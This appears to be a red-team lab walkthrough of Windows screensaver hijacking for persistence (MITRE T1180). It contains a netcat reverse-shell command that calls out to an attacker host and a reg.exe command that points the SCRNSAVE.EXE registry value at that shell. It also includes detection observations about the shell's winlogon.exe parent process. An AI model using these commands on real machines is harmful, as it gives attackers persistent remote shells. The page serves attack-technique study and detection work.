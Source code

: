 ```yaml
---
description: Hijacking screensaver for persistence.
---
```


# Screensaver Hijack

## Execution

To achieve persistence, the attacker can modify `SCRNSAVE.EXE` value in the registry  `HKCU\Control Panel\Desktop\` and change its data to point to any malicious file.

In this test, I will use a netcat reverse shell as my malicious payload:

{% code title="c:\\shell.cmd@victim" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode %}

Let's update the registry:

![](../../.gitbook/assets/screensaver-registry.png)

The same could be achieved using a native Windows binary reg.exe:

{% code title="attacker@victim" %}
```bash
reg add "hkcu\control panel\desktop" /v SCRNSAVE.EXE /d c:\shell.cmd
```
{% endcode %}

![](../../.gitbook/assets/screensaver-reg.png)

## Observations

Note the process ancestry on the victim system - the reverse shell process traces back to winlogon.exe as the parent process, which is responsible for managing user logons/logoffs. This is highly suspect and should warrant a further investigation:

![](../../.gitbook/assets/screensaver-shell%20%281%29.png)

![](../../.gitbook/assets/screensaver-logs.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1180" %}



